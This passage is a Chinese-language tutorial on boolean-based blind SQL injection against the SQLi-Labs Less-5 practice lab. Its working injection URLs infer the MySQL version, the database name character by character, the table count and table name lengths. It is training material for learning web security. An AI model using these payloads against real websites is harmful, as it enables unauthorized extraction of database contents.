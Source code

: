 数据库版本是5.6.17，这里的语句意思就是测试数据库版本第一位是不是5，通过返回的结果显示是对的。若不是5则页面返回错误，若是5则页面返回正确。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and left (version(),1)=5--+

![img](https://s2.loli.net/2023/03/12/Ux5WSqEZn6VRoPO.jpg) 

#### 3.3.5.3.**猜测数据库名长度**

若是8则返回正确，若不是8则返回错误。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and length(database())=8--+

![img](https://s2.loli.net/2023/03/12/SuKQYzF9DWIOmei.jpg) 

#### 3.3.5.4.**猜测数据库名**

Database()为 security，所以我们看他的第一位是否 > a,很明显的是 s > a,因此返回正确。

URL:http://192.168.10.150/sqlilabs/Less-5/?id=1' and left(database(),1)>'a'--+

![img](https://s2.loli.net/2023/03/12/dFWNec8OEUVZB6l.jpg) 

Database()为 security，所以我们看他的前两位是否 > sa,因此返回正确。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and left(database(),2)>'sa'--+

![img](https://s2.loli.net/2023/03/12/CRjWGNsZ41YIcq2.jpg) 

用ascii来判断数据第一个字符是什么。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ascii(substr(database(),1,1))=115--+

![img](https://s2.loli.net/2023/03/12/lSbWJAjYkBmeETI.jpg) 

用ascii来判断数据第二个字符是什么。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ascii(substr(database(),2,1))=101--+

![img](https://s2.loli.net/2023/03/12/LruWzvZMslyCwPU.jpg) 

#### 3.3.5.5.**猜测数据库表的数量**

在security中表只有4张表，从0开始计算，实际只能到3，1而不能到4，1，所以当到4，1的时候大于0就不成立，所以无显就能判断出该数据库只有4张表。

URL:http://192.168.10.150/sqlilabs/Less-5/?id=1' and (length((select table_name from information_schema.tables where table_schema=database() limit 3,1))) > 0 --+

![img](https://s2.loli.net/2023/03/12/h8CpoVZsQm7YET3.jpg) 

#### 3.3.5.6.**猜测数据库表名的长度**

判断长度，例如上面的链接，大于5，实际在数据库中第一个表是6位，而这里大于5是正确的所以回显正常，这样可以判断表有多少位。当然也可以直接使用等于来进行判断。

URL:http://192.168.10.150/sqlilabs/Less-5/?id=1' and length((select table_name from information_schema.tables where table_schema='security' limit 0,1))>5--+

![img](https://s2.loli.net/2023/03/12/7CoeGaAIgzvXLwn.jpg) 
